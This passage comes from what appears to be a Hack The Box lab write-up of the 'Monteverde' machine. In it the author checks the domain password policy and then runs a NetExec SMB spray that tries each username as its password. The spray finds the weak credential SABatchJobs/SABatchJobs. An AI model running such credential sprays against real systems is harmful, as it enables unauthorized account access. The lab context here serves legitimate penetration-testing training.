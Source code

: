 
Running enum4linux we find a few addidtional things like the following:

- Password history length: 24                                                                    
- Minimum password length: 7                                                                     

I always like to look at the password policy since if we need to bruteforce some passwords later on we can use it to filter out any passwords that don't meet the required policy

So far I haven't found anything that intrigues me, so using the usernames that I just gatherd I'm going to check if someone has foolishly set their username as their password. 

Just by cross-checking usernames with password policy I can remove some of the users :) like mhope. But I'll leave them anyway since this is jsut a simulated environment.

```bash
~/htb/boxes/OSCP-PREP/Monteverde 18s ❯ nxc smb 10.129.228.111 -u users -p users --no-bruteforce --continue-on-success                                                               20:18:18 [1/13]
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 

SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs  

SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:svc-ata STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:svc-bexec STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:svc-netapp STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:roleary STATUS_LOGON_FAILURE 
SMB         10.129.228.111  445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:smorgan STATUS_LOGON_FAILURE 
```

![Checking for weak creds](/imgs/assets-monteverde/MONTEVERDE_DEFAULT.png "Checking for weak creds")

Success! The SABatchJobs user has their password set to their username. 
```bash
SABatchJobs / SABatchJobs
```
